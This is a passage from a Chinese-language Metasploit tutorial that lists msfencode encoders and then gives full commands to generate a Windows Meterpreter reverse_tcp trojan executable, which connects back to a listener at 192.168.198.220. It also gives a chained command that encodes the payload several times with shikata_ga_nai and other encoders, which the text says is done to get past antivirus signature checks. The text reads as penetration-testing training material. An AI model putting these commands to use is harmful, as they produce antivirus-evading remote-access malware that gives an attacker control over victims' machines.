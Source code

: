 ```
    mipsbe/byte_xori              normal     Byte XORi Encoder
    mipsbe/longxor                normal     XOR Encoder
    mipsle/byte_xori              normal     Byte XORi Encoder
    mipsle/longxor                normal     XOR Encoder
    php/base64                    great      PHP Base64 Encoder
    ppc/longxor                   normal     PPC LongXOR Encoder
    ppc/longxor_tag               normal     PPC LongXOR Encoder
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder
    x64/xor                       normal     XOR Encoder
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```

#### 5.2 MSFENCODE编码实验

1、生成一个经过msfencode编码的木马文件： 

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.198.220 LPORT=10086 R | msfencode -e x86/shikata_ga_nai -t exe > Desktop/muma_encode.exe
```

参数解释 “R”：输出原始数据 “|” ： 分割符 “-e”：指定编码器类型 “-t”：输出文件类型 “>”：指定生成文件名（可以用“-o”参数替代） 

2、多重编码  单纯的一次msfencode编码现在已经很难绕过杀软，在掌握了上面基本的编码技巧后，我们学习一下msfencode的多重编码。  在Metasploit框架中，允许我们使用多重编码技术来对攻击载荷（msfpayload）进行多次编码，以绕过杀软的特征码检查。  生成一个经过多次msfencode编码的木马文件： 

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.198.220 LPORT=10086 R | msfencode -e x86/shikata_ga_nai -c 5 -t raw | msfencode -e x86/jmp_call_additive -c 3 -t raw | msfencode -e x86/call4_dword_xor -c 7 -t raw | msfencode -e x86/shikata_ga_nai -c 2 -t exe -o Desktop/muma_multiEncode.exe
```

参数解释 “-c”：使用当前编码器编码的次数 “raw”：以原始数据类型输出 “-o”：指定生成的文件名 

注意：过多次的使用msfencode混合编码虽然绕过杀软检测的效果更好，但同时也有导致木马文件无法正常运行的可能。所以建议在编码后先对所生成文件的可用性进行检查。 请输入图片描述 
